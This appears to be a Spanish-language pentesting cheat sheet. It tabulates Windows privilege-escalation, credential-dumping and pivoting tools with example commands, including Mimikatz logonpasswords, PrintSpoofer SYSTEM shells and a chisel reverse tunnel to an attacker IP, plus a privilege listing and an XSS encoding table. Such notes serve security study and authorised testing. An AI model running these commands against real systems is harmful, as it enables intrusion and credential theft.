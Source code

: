 # Tabla de Herramientas de Post-Explotación y Pivoting

| Herramienta | Descripción | Tipo de Herramienta | Sistema de instalación | Instalación | Ejemplo de Uso Realista | Privilegios requeridos |
|-------------|-------------|---------------------|------------------------|-------------|-------------------------|------------------------|
| **PrintSpoofer.exe / PrintSpoofer64.exe** | Abusa del servicio `Print Spooler` y el permiso `SeImpersonatePrivilege` para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar desde repositorios públicos (ej. GitHub) o compilar en Visual Studio. | `PrintSpoofer64.exe -i -c cmd.exe` (Abre shell como SYSTEM) | Usuario con `SeImpersonatePrivilege` habilitado. |
| **JuicyPotato.exe** | Variante de exploit que abusa de COM y permisos especiales para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar binario o compilar desde código fuente. | `JuicyPotato.exe -l 1337 -p cmd.exe -t *` (Eleva a SYSTEM) | `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`. |
| **GodPotato.exe / GodPotato-NEI2.exe** | Variante mejorada de JuicyPotato que funciona en versiones más recientes de Windows. | Escalación de privilegios local | Windows | Descargar binario listo desde GitHub. | `GodPotato.exe -cmd "cmd /c whoami"` | `SeImpersonatePrivilege`. |
| **RogueWinRM.exe** | Permite ejecutar comandos remotos como SYSTEM a través de WinRM cuando se tienen privilegios. | Ejecución remota | Windows | Descargar binario desde GitHub o compilar. | `RogueWinRM.exe -H <victima_ip> -u usuario -p contraseña -c "powershell.exe"` | WinRM habilitado y credenciales válidas. |
| **sh6789.exe** | Script/binario personalizado para ejecución de payloads en Windows. | Ejecución de payloads | Windows | Copiar en la máquina víctima. | `sh6789.exe` | Depende del payload; normalmente requiere ejecución local. |
| **BloodHound** | Herramienta de análisis de Active Directory que permite descubrir rutas de ataque. | Reconocimiento y escalación lateral | Windows/Linux | Instalar desde GitHub (`npm install` para interfaz gráfica, `SharpHound` para recolección). | `SharpHound.exe -c All` y luego analizar con GUI. | Usuario con acceso al dominio. |
| **Mimikatz** | Extrae credenciales en texto plano, hashes y tickets Kerberos desde memoria. | Post-explotación / extracción de credenciales | Windows | Descargar desde GitHub o binarios precompilados. | `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"` | Usuario con privilegio `SeDebugPrivilege` (normalmente admin local). |
| **Impacket** | Conjunto de scripts Python para interactuar con protocolos de red (SMB, RDP, etc.). | Post-explotación / movimiento lateral | Linux | `pip install impacket` | `psexec.py usuario@victima` | Credenciales válidas y acceso a puertos necesarios. |
| **Kerbrute** | Fuerza bruta o enumera usuarios en Kerberos. | Reconocimiento | Windows/Linux | Descargar desde GitHub (Go) o binario precompilado. | `kerbrute userenum -d dominio.local users.txt` | No requiere privilegios especiales; solo acceso a KDC (puerto 88). |
| **CrackMapExec (CME)** | Automatiza pruebas en redes Windows (SMB, WinRM, RDP). | Post-explotación / movimiento lateral | Linux | `pipx install crackmapexec` | `cme smb 192.168.1.0/24 -u usuario -p contraseña` | Credenciales válidas. |
| **smbclient** | Cliente SMB para acceder a recursos compartidos. | Acceso a compartidos SMB | Linux | `sudo apt install smbclient` | `smbclient //192.168.1.10/compartido -U usuario` | Credenciales válidas o acceso anónimo. |
| **rpcclient** | Cliente RPC para consultar información de Windows. | Enumeración | Linux | `sudo apt install samba-common-bin` | `rpcclient -U "" -N 192.168.1.10` | Acceso anónimo o credenciales válidas. |
| **proxychains** | Encadena conexiones a través de proxies/Tor. | Pivoting / tunneling | Linux | `sudo apt install proxychains` | `proxychains nmap -Pn 10.10.10.10` | No requiere privilegios especiales. |
| **chisel** | Túnel TCP/UDP rápido sobre HTTP. | Pivoting / tunneling | Windows/Linux | Descargar desde GitHub o binario precompilado. | `chisel server -p 8000 --reverse` (atacante) y `chisel client atacante_ip:8000 R:8080:127.0.0.1:80` (víctima) | Ejecución en ambos extremos; no requiere privilegios especiales. |




Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session 







https://portswigger.net/web-security/cross-site-scripting/cheat-sheet





https://github.com/s0md3v/AwesomeXSS




https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


### Awesome Encoding

|HTML|Char|Numeric|Description|Hex|CSS (ISO)|JS (Octal)|URL|
|----|----|-------|-----------|----|--------|----------|---|
|`&quot;`|"|`&#34;`|quotation mark|u+0022|\0022|\42|%22|
|`&num;`|#|`&#35;`|number sign|u+0023|\0023|\43|%23|
|`&dollar;`|$|`&#36;`|dollar sign|u+0024|\0024|\44|%24|
|`&percnt;`|%|`&#37;`|percent sign|u+0025|\0025|\45|%25|
|`&amp;`|&|`&#38;`|ampersand|u+0026|\0026|\46|%26|
|`&apos;`|'|`&#39;`|apostrophe|u+0027|\0027|\47|%27|
|`&lpar;`|(|`&#40;`|left parenthesis|u+0028|\0028|\50|%28|
|`&rpar;`|)|`&#41;`|right parenthesis|u+0029|\0029|\51|%29|
|`&ast;`|*|`&#42;`|asterisk|u+002A|\002a|\52|%2A|
|`&plus;`|+|`&#43;`|plus sign|u+002B|\002b|\53|%2B|
|`&comma;`|,|`&#44;`|comma|u+002C|\002c|\54|%2C|
|`&minus;`|-|`&#45;`|hyphen-minus|u+002D|\002d|\55|%2D|
|`&period;`|.|`&#46;`|full stop; period|u+002E|\002e|\56|%2E|
|`&sol;`|/|`&#47;`|solidus; slash|u+002F|\002f|\57|%2F|
|`&colon;`|:|`&#58;`|colon|u+003A|\003a|\72|%3A|
|`&semi;`|;|`&#59;`|semicolon|u+003B|\003b|\73|%3B|
|`&lt;`|<|`&#60;`|less-than|u+003C|\003c|\74|%3C|
|`&equals;`|=|`&#61;`|equals|u+003D|\003d|\75|%3D|
|`&gt;`|>|`&#62;`|greater-than sign|u+003E|\003e|\76|%3E|
|`&quest;`|?|`&#63;`|question mark|u+003F|\003f|\77|%3F|
|`&commat;`|@|`&#64;`|at sign; commercial at|u+0040|\0040|\100|%40|
|`&lsqb;`|\[|`&#91;`|left square bracket|u+005B|\005b|\133|%5B|
|`&bsol;`|&bsol;|`&#92;`|backslash|u+005C|\005c|\134|%5C|
|`&rsqb;`|]|`&#93;`|right square bracket|u+005D|\005d|\135|%5D|
|`&Hat;`|^|`&#94;`|circumflex accent|u+005E|\005e|\136|%5E|
|`&lowbar;`|_|`&#95;`|low line|u+005F|\005f|\137|%5F|
|`&grave;`|\`|`&#96;`|grave accent|u+0060|\0060|\u0060|%60|
|`&lcub;`|{|`&#123;`|left curly bracket|u+007b|\007b|\173|%7b|
|`&verbar;`|\||`&#124;`|vertical bar|u+007c|\007c|\174|%7c|
|`&rcub;`|}|`&#125;`|right curly bracket|u+007d|\007d|\175|%7d|
